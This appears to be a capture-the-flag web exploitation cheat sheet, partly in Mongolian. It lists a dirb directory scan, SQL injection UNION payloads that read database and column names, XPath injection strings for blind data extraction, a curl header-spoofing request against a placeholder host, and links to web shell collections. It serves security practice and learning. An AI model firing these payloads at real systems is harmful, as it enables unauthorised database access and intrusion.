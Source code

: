 Directory traversal attack
-

* [`dirb`](https://tools.kali.org/web-applications/dirb)

	* `dirb <target-address>`


JavaScript
-

* `shell`
	
	node command line шеллийг ашиглаж болно.


SQLi
-

* `UNION`
	
```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

XPath Injection
-

```
'or string-length(name(.))=5 or '!'='
' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='
'or contains(.,'admin') or'
a' or (substring((//flag)[1], 1, 1)) = 'a
```

Type juggling with data
-

* `Playing with header`
	
	* `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
	* [code](https://github.com/ByamB4/CCC/blob/master/Web%20Exploitation/src/post-nullbyte.py)
	
Web shells
-

* `Shells`
	
	* [dict.txt](https://github.com/ByamB4/Capture-The-Flag-Tools/blob/master/Web/shells/list.txt)
	* [\*.php](https://github.com/ByamB4/Capture-The-Flag-Tools/tree/master/Web/shells/code)
